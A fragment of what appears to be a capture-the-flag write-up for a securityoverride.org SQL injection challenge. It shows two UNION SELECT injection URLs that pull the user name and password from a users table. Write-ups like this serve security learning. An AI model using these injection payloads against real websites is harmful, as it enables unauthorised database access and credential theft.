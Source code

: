 ```sql
```

What are stored in the here ? Of couse, the name of all tables you have created for this database session. And we see a table with the name user.
Performing the same union technique to guess for the password and user on table users, the url should look like belows.

```url
http://securityoverride.org/challenges/basic/12/index.php?id=1%20union%20select%201,user,3,4%20from%20users%20--%20-

http://securityoverride.org/challenges/basic/12/index.php?id=1%20union%20select%201,password,3,4%20from%20users%20--%20-
```

There is only 1 entry in the table. And it’s a result.
